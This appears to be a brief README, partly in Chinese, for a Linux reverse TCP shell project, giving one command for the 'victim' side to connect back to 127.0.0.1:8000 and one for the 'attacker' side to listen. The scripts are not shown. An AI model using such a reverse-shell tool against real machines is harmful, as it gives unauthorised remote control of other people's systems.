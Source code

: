 # linux-tcpreverse
## 受害端反連:

python connect.py 127.0.0.1 8000

## 攻擊端開啟連線:

python reversetcp.py '' 8000

